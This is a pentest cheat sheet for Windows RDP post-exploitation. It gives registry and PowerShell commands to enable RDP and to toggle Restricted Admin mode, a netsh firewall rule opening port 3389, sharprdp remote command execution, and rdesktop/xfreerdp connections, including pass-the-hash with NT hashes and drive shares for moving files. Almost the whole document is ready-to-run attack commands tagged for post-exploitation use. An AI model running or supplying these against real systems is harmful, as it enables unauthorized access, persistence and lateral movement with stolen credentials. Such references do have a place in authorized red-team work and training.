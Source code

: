 # windows rdp

% rdp, windows, 3389
#platform/windows  #target/local  #protocol/rdp #port/3389

## enable RDP
#cat/POSTEXPLOIT 
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

## enable restricted admin
#cat/POSTEXPLOIT 
```
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

## disable restricted admin
#cat/POSTEXPLOIT 
```
Remove-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin
```

## rdp from console
```
sharprdp.exe computername=<computer> command="<command>" username=<domain>\<user> password=<password>
```

## Add firewall authorisation RDP
#cat/POSTEXPLOIT 
```
netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (TCP-In)" dir=in action=allow program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the Remote Desktop service to allow RDP traffic. [TCP 3389] added by LogicDaemon's script" enable=yes profile=private,domain localport=3389 protocol=tcp
```

# rdesktop
% rdp, windows
#platform/linux  #target/remote  #protocol/rdp #port/3389 #cat/ATTACK/CONNECT 

## rdesktop - classic
```
rdesktop -g 90% <target_ip> -u <user> -p <password> -d <domain>
```

## rdesktop - with share
```
rdesktop -g 90% <target_ip> -u <user> -p <password> -d <domain> -r disk:share=<share>
```

# xfreerdp

% rdp, windows
#platform/linux  #target/remote  #protocol/rdp #port/3389 #cat/ATTACK/CONNECT 

## xfreerdp - classic
```
xfreerdp /u:<user> /p:<password> /d:<domain> /v:<target_ip> /size:1920x1080
```

## xfreerdp - password with share
```
xfreerdp /u:<user> /p:<password> /d:<domain> /v:<target_ip> /size:1920x1080 /drive:PandorasBox,<local_path|/home/kali/PandorasBox>
```

## xfreerdp - pass the hash
```
xfreerdp /u:<user> /pth:<nthash> /d:<domain> /v:<target_ip>
```

## xfreerdp - hash with share
```
xfreerdp /u:<user> /pth:<nthash> /d:<domain> /v:<target_ip> /size:1920x1080 /drive:PandorasBox,<local_path|/home/kali/PandorasBox>
```
